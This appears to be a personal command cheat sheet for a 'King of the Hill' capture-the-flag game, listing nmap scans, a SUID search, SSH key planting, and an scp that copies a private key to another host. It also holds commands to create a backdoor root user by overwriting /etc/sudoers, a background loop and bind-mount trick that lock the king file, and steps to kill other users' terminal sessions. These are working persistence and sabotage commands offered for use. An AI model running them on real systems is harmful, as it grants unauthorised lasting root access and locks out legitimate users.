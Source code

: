 NMAP:
```
nmap -p- --min-rate 10000  10.10.11.32
```

```
nmap -p 22,21,80 -sCV 10.10.11.32
```



To find SUID Binaries :
```
find / -perm /4000 2>/dev/null

```


## SSH KEY GEN

##### 1. Create the .ssh directory (if it doesn't exist)
```
mkdir -p ~/.ssh
```

##### 2. Generate an SSH key pair
```
ssh-keygen -t rsa -b 4096 -f ~/.ssh/id_rsa -N ""
```

##### 3. Add the public key to authorized_keys for passwordless login
```
cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys
```

##### 4. Set correct permissions for authorized_keys
```
chmod 600 ~/.ssh/authorized_keys
```



```
scp ~/.ssh/id_rsa pradyun@10.6.13.240:/home/pradyun/Music
```




# CREATE ANOTHER ROOT USER

sudo useradd -p $(openssl passwd -1 password) chepe  
echo 'chepe  ALL=(ALL)  ALL' > /etc/sudoers





# PROTECT KING FILE

```
while [ 1 ]; do chattr -ia /root/king.txt 2>/dev/null; echo -n Pradyun >| /root/king.txt 2>/dev/null; chattr +ia /root/king.txt 2>/dev/null; done &
```

Mount King 

```
sudo lessecho Pradyun > /root/king.txt; sudo dd if=/dev/zero of=/dev/shm/root_f bs=1000 count=100; sudo mkfs.ext3 /dev/shm/root_f; sudo mkdir /dev/shm/sqashfs; sudo mount -o loop /dev/shm/root_f /dev/shm/sqashfs/; sudo chmod -R 777 /dev/shm/sqashfs/; sudo lessecho Pradyun > /dev/shm/sqashfs/king.txt; sudo mount -o ro,remount /dev/shm/sqashfs; sudo mount -o bind /dev/shm/sqashfs/king.txt /root/king.txt; sudo rm -rf /dev/shm/root_f

```



# REMOVE OTHER USERS IN TTY

```
w
```

```
ps -t pts/1
```

```
sudo kill -9 <pid>
```





# REVOKE CHATTR

```
lsattr /root/king.txt
```


```
sudo chattr -i /root/king.txt   # Remove immutable flag
```

```
sudo chattr -a /root/king.txt   # Remove append-only flag
```